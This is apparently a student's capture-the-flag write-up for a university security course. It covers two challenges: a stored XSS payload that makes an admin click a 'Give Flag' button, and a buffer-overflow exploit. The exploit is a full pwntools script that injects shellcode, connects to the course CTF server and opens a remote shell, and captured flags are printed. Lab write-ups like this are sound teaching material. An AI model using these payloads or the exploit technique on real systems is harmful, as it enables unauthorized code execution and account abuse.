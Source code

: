 # Trabalho Realizado na Semana 5

## CTF

### Desafio 1

For this challenge, after we send a justification, we go to a page where the admin can give the flag and mark the request as read. These buttons are only enbaled to the admin so our purpose is to make the admin click the button `Give Flag` for us. For that, we can use the justification: `<script>document.getElementById('giveflag').click()</script>`, which will try to click the button everytime someone enters the page.

When the admin goes to evaluate the request, the script will click the button, and as it will be enabled, the flag will be given to us.

Flag:
```
flag{754649a1f0ffcd9943a6fafb3ca59853}
```

### Desafio 2

This is a simple shellcode execution attack. We have a buffer of 100 bytes, which is large enough to store our shellcode, and the program prints the buffer base address, which we can use as return address.

The smplified payload would be: `shellcode + trash + buffer address`

To get the return address offset, we used the following python script:

```py
from pwn import *

context.update(arch='i386', os='linux')

p = process("./program")
gdb.attach(p)
pause()

p.sendline(cyclic(150))
p.interactive()
```

From this, the program crashes at `daab`. Using this value in the function `cyclic_find` we get the offset, which is 112.

With the offset, we can now build our script to open the shell on the server:

```py
from pwn import *

context.update(arch='i386', os='linux')

LOCAL = False

if LOCAL:
    p = process("./program")
    gdb.attach(p)
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4001)

p.recvuntil(b"Your buffer is ")
buffer = p.recvuntil(b".")[:-1]
buffer = (int(buffer, 16))

shellcode = shellcraft.sh()
shellcode = asm(shellcode)

payload = shellcode + b'\x00' * (cyclic_find('daab') - len(shellcode) - 4)
payload += p32(buffer)

p.sendline(payload)
p.interactive()
```

This successfully opens a shell in the server, and using the command `cat flag.txt` we get the flag.

Flag:
```
flag{5155603df944885d37463ad476a1accd}
```

---

